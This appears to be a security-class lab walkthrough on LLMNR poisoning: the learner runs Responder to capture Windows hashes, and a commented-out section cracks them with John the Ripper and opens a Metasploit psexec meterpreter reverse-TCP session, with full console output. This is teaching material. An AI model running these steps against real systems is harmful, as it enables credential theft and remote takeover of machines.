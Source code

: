 # Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a **weak** password.

Specifically, we are looking to take advantage of **"LLMNR"**.  

We will need to load our terminal and start responder.

Let's get started by opening a **Kali** terminal.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Next, let’s become root:

<pre>sudo su -</pre>

Before we start, we need to remove the existing **Responder** database. Do so by running the following:

<pre>rm /usr/share/responder/Responder.db</pre>

Now let’s start **Responder**:

<pre>responder -I eth0</pre>

You should see this:

![](attachments/responderrunning.png)

Let's open Windows File Explorer and put in the string `\\Noooo` into the address bar at the top.

![](attachments/OpeningFileExplorer.png)

![](attachments/noooaccessbar.png)

Switch back to your **Kali** terminal window.

After a few moments, you should see some captured data showing up.  Please note there may be an error.  That is OK.

![](attachments/captureddata.png)

***
[Back to Navigation Menu](/IntroClassFiles/navigation.md)

<!--

THIS SECTION IS BEING REMOVED FOR THE TIME BEING PER JOHN

Next we need to kill Responder with `Ctrl + c`.  This will return the command prompt. 

Now, we need to change to the logs directory.

</pre>cd /opt/Responder/logs</pre>

Once there, we will need to start John The Ripper"

</pre>/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt</pre>
Remember!  Your IP will be different!!!!


If you captured a NTLMv1 hash you can crack it with the following command:

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlm ./HTTP-NTLMv1-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

Notice the v2 is dropped from the --format.

![](attachments/Clipboard_2020-06-23-14-24-11.png)

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

![](attachments/SMB_bat.png)

Next, let’s open a new Kali instance. The easiest way to do this is to click the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

</pre>
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!
*/
-->

